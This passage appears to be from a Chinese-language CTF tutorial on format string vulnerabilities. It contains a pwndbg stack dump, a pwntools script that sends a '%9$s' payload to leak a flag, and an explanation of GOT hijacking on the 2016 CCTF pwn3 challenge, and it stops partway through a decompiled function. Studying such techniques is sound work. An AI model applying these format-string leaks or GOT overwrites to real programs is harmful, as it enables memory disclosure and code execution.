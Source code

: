 ```c
 R13  0x7fffffffde70 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7fffffffdd90 —▸ 0x400900 (__libc_csu_init) ◂— push   r15
 RSP  0x7fffffffdd48 —▸ 0x400890 (main+234) ◂— mov    edi, 0x4009b8
 RIP  0x7ffff7a62810 (printf) ◂— sub    rsp, 0xd8
──────────────────────────────[ DISASM ]─────────────────────────────────
   0x7ffff7a62817 <printf+7>      test   al, al
   0x7ffff7a62819 <printf+9>      mov    qword ptr [rsp + 0x28], rsi
   0x7ffff7a6281e <printf+14>     mov    qword ptr [rsp + 0x30], rdx
   0x7ffff7a62823 <printf+19>     mov    qword ptr [rsp + 0x38], rcx
   0x7ffff7a62828 <printf+24>     mov    qword ptr [rsp + 0x40], r8
   0x7ffff7a6282d <printf+29>     mov    qword ptr [rsp + 0x48], r9
   0x7ffff7a62832 <printf+34>     je     printf+91 <0x7ffff7a6286b>
    ↓
   0x7ffff7a6286b <printf+91>     lea    rax, [rsp + 0xe0]
   0x7ffff7a62873 <printf+99>     mov    rsi, rdi
   0x7ffff7a62876 <printf+102>    lea    rdx, [rsp + 8]
───────────────────────────────[ STACK ]─────────────────────────────────
00:0000│ rsp  0x7fffffffdd48 —▸ 0x400890 (main+234) ◂— mov    edi, 0x4009b8  //返回地址
01:0008│      0x7fffffffdd50 ◂— 0x61000001  // 偏移1
02:0010│      0x7fffffffdd58 —▸ 0x602830 ◂— 0x61616161 /* 'aaaa' */ // 偏移2
03:0018│      0x7fffffffdd60 —▸ 0x602010 ◂— 'You answered:\ng\n'  // 偏移3 
04:0020│      0x7fffffffdd68 —▸ 0x7fffffffdd70 ◂— 0x3333327b67616c66 ('flag{233')  // 偏移4 
05:0028│      0x7fffffffdd70 ◂— 0x3333327b67616c66 ('flag{233')
06:0030│      0x7fffffffdd78 ◂— 0xffffffffffff0a7d
07:0038│      0x7fffffffdd80 ◂— 0xffffffffffff
```
可以看到flag在栈的偏移值为5，去掉第一个的返回地址，在栈上偏移则为4。因为程序为64位，而格式化字符串是printf函数的第一个参数，所以存放在寄存器rdi中，其他5个寄存器（rsi, rdx, rcx, r8, r9）则存放其他参数。那么实际偏移地址是寄存器加栈上偏移：5+4=9 

最终利用代码如下
```python
from pwn import *

p = process('./goodluck')

payload='%9$s'
p.sendline(payload)

p.interactive()
```

### hijack GOT
在没有开启 RELRO 保护的前提下，每个 libc 的函数对应的 GOT 表项是可以被修改的。因此，我们可以修改某个 libc 函数的 GOT 表内容为另一个 libc 函数的地址来实现对程序的控制。比如把printf_got修改成system_got，那么下次执行的printf的时候实际上执行的是systen函数


以[2016 CCTF pwn3](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/2016-CCTF-pwn3)为例
查看保护
```c
gnq@gnq:~/test$ checksec pwn3 
[*] '/home/gnq/test/pwn3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
通过IDA分析可以该程序有三个功能，put、dir、get。其中`get`存在格式化字符串漏洞
```c
int get_file()
{
  char dest; // [esp+1Ch] [ebp-FCh]
```